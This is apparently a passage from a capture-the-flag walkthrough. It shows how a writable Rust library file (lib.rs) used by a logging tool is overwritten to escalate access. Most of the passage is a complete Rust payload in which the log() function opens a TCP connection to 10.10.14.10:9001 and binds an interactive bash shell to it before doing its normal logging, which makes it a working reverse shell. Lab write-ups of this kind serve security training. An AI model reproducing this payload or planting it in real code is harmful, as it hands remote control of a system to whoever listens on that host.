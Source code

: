 Its possible to overwrite the lib.rs file with a modified version. Next step is to modify lib.rs to execute a reverse shell and compile it.

### Reverse Shell Payload - lib.rs

```rust
use std:: fs:: OpenOptions;
use std:: io:: Write;
use chrono:: prelude::*;
use std:: net:: TcpStream;
use std:: os:: unix:: io:: { AsRawFd, FromRawFd };
use std:: process:: { Command, Stdio };

extern crate chrono;

pub fn log(user: & str, query: & str, justification: & str) {

let sock = TcpStream:: connect("10.10.14.10:9001").unwrap();

// a tcp socket as a raw file descriptor
// a file descriptor is the number that uniquely identifies an open file in a computer's operating system
// When a program asks to open a file/other resource (network socket, etc.) the kernel:
// 1. Grants access
// 2. Creates an entry in the global file table
// 3. Provides the software with the location of that entry (file descriptor)
// https://www.computerhope.com/jargon/f/file-descriptor.htm

let fd = sock.as_raw_fd();

// so basically, writing to a tcp socket is just like writing something to a file!
// the main difference being that there is a client over the network reading the file at the same time!

Command:: new ("/bin/bash")
.arg("-i")
.stdin(unsafe { Stdio:: from_raw_fd(fd) })
.stdout(unsafe { Stdio:: from_raw_fd(fd) })
.stderr(unsafe { Stdio:: from_raw_fd(fd) })
.spawn()
.unwrap()
.wait()
.unwrap();

let now = Local:: now();
let timestamp = now.format("%Y-%m-%d %H:%M:%S").to_string();
let log_message = format!("[{}] - User: {}, Query: {}, Justification: {}\n", timestamp, user, query, justification);

let mut file = match OpenOptions::new ().append(true).create(true).open("/opt/tipnet/access.log") {
Ok(file) => file,
Err(e) => {
println!("Error opening log file: {}", e);
return;
}

};  

if let Err(e) = file.write_all(log_message.as_bytes()) {

println!("Error writing to log file: {}", e);

}  
```
